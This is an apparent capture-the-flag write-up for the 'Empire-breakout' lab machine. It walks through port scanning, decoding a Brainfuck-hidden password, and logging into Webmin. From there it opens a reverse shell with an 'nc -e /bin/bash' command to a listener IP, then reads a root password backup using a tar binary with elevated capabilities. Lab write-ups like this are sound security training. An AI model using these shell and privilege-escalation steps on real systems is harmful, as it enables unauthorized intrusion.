



The exploration of the "Empire-breakout" box involved several critical steps. First, information gathering was carried out through a port scan using the nmap tool, identifying open ports such as 80, 445, 139, 10000, and 20000. During enumeration, sensitive information was discovered, including an encrypted string in Brainfuck, which was decoded to obtain initial access credentials.
With the credentials "cyber" and ".2uqPEfj3D<P'a-3", initial access to Webmin was obtained. Using the Webmin console, a reverse shell was established, allowing remote access to the system.
During post-exploitation, a "tar" binary with elevated capabilities was identified, allowing the reading of files with any permission. This led to the discovery of a backup file containing an old password, which was used to gain root access to the system.
The process included techniques to exploit vulnerabilities in web services, remote command execution, and privilege escalation, culminating in full system access and the retrieval of proof files.

# Overview



## 1. Intelligence Gathering

### Port Scan

```bash
sudo nmap -sS -T1 -Pn -p- --open 192.168.190.238 -v
```



## 2. Enumeration

### Porta 80


When verifying the page source, I found an encrypted access string (brainfuck).


```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

A search on Google led to a decoder site:

[https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)


> .2uqPEfj3D<P'a-3
> 

### Port 445 and 139

The user credentials 'cyber' were previously found using the `enum4linux -a 192.168.190.238` command

### Port 10000

> MiniServ/1.981
> 


Webmin version MiniServ/1.981 was found. After searching for exploits, none were found.

### Port 20000

> MiniServ/1.830
> 


Webmin version MiniServ/1.830 was found. After searching for exploits, none were found.

## 3. Exploitation

Initial Access

With the credentials “cyber” and “.2uqPEfj3D<P'a-3”, I gained initial access.


Accessing the console mode of Webmin, I sent `/bin/bash`

```bash
nc -e /bin/bash 192.168.45.163 666
```


Listening on the local machine:

```bash
rlwrap -cAr nc -nlvp 666
```



Importing the shell using Python:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


## 4. Post-Exploitation

I found the binary “tar” with capabilities:

```bash
getcap -r / 2>/dev/null
```


CAP_DAC_READ_SEARCH - This means it can read all files on the system regardless of their permissions.
I found the file “.old_pass.bak” in `/var/backups`


The goal was to compress the file with “tar” to discover the old password.

```bash
./tar -cf pass.tar /var/backups/.old_pass.bak
./tar -xf pass.tar
cat var/backups/.old_pass.bak
```


Access the root

